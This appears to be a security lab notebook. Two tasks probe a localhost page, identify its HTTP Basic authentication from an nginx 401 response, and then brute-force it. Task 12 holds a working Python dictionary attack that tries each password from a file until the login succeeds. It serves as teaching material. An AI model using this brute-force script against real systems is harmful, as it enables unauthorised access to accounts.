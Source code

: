 

**Task 11:** A token is kept at page localhost/token/index.html by user "anon". But, the page is protected. What kind of protection is deployed?


```python
import requests
from bs4 import BeautifulSoup

resp = requests.get('http://localhost/token/index.html')
soup = BeautifulSoup(resp.text, 'html.parser')

print(soup.prettify())

print(resp.headers)
```

    <html>
     <head>
      <title>
       401 Authorization Required
      </title>
     </head>
     <body bgcolor="white">
      <center>
       <h1>
        401 Authorization Required
       </h1>
      </center>
      <hr/>
      <center>
       nginx/1.14.0
      </center>
     </body>
    </html>
    
    {'Server': 'nginx/1.14.0', 'Date': 'Wed, 04 May 2022 18:19:40 GMT', 'Content-Type': 'text/html', 'Content-Length': '195', 'Connection': 'keep-alive', 'WWW-Authenticate': 'Basic realm="Anon token is here"'}


**Task 12:** Break the protection and get the token kept at page localhost/token1/index.html


```python
import requests
from bs4 import BeautifulSoup

url='http://localhost/token/index.html'
username='anon'
password_dict="password_dictionary.txt"
timeout=5

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

for password in lines:
    print("Trying with password: ",password)
    auth = requests.auth.HTTPBasicAuth(username, password)
    resp = requests.get(url=url, auth=auth, verify=False, timeout=timeout)
    if "Authorization Required" not in str(resp.text):
        print("Login successful with password: ",password)
        soup = BeautifulSoup(resp.text, 'html.parser')
        break

print(soup.prettify())
```
